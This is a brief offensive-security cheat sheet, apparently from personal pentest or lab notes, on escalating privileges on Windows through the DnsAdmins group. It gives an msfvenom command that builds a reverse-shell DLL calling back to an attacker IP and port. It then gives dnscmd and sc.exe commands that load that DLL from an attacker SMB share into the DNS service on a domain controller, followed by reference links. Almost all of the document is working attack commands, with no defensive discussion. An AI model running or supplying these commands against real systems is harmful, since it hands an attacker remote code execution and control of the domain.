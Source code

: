 # DnsAdmins - dll Injection
---------
- Inject a DNS plugin dll into dns.exe process on  a victim DNS server (DC).


Generate a reverse shell dll using msfvenom:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.51 LPORT=9999 -f dll -o shell.dll
```

Serve the malicious dll in a smb share

On victim PC:
```cmd
dnscmd.exe /config /serverlevelplugindll \\10.10.14.51\share\shell.dll

sc.exe stop dns

#once it is stopped:

sc.exe start dns
```


https://www.hackingarticles.in/windows-privilege-escalation-dnsadmins-to-domainadmin/
https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise








